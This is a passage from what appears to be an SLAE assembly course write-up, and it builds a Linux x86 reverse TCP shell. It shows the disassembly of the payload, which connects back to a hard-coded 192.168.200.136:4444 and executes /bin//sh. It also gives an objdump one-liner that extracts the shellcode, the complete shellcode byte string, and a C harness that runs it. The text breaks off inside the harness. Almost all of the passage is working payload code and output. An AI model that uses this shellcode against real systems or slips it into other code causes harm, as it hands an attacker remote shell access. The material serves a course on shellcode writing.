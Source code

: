  8049014:       cd 80                   int    0x80
 8049016:       89 c6                   mov    esi,eax
 8049018:       89 c3                   mov    ebx,eax
 804901a:       b1 03                   mov    cl,0x3

0804901c <dup2>:
 804901c:       31 c0                   xor    eax,eax
 804901e:       b0 3f                   mov    al,0x3f
 8049020:       cd 80                   int    0x80
 8049022:       49                      dec    ecx
 8049023:       79 f7                   jns    804901c <dup2>
 8049025:       31 db                   xor    ebx,ebx
 8049027:       89 f3                   mov    ebx,esi
 8049029:       66 b8 6a 01             mov    ax,0x16a
 804902d:       57                      push   edi
 804902e:       68 c0 a8 c8 88          push   0x88c8a8c0
 8049033:       66 68 11 5c             pushw  0x5c11
 8049037:       66 6a 02                pushw  0x2
 804903a:       89 e1                   mov    ecx,esp
 804903c:       b2 66                   mov    dl,0x66
 804903e:       cd 80                   int    0x80
 8049040:       31 c0                   xor    eax,eax
 8049042:       50                      push   eax
 8049043:       68 2f 2f 73 68          push   0x68732f2f
 8049048:       68 2f 62 69 6e          push   0x6e69622f
 804904d:       89 e3                   mov    ebx,esp
 804904f:       50                      push   eax
 8049050:       89 e2                   mov    edx,esp
 8049052:       53                      push   ebx
 8049053:       89 e1                   mov    ecx,esp
 8049055:       b0 0b                   mov    al,0xb
 8049057:       cd 80                   int    0x80
 {% endhighlight %}

 ### Step6 - Extract the shellcode

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment2$ objdump -d ./reverse_tcp_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xc3\xb1\x03\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf7\x31\xdb\x89\xf3\x66\xb8\x6a\x01\x57\x68\xc0\xa8\xc8\x88\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x66\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
{% endhighlight %}

### Step7 - Insert the shellcode into a test program written in C, and compile to test the shellcode

{% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xc3\xb1\x03\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf7\x31\xdb\x89\xf3\x66\xb8\x6a\x01\x57\x68\xc0\xa8\xc8\x88\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x66\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
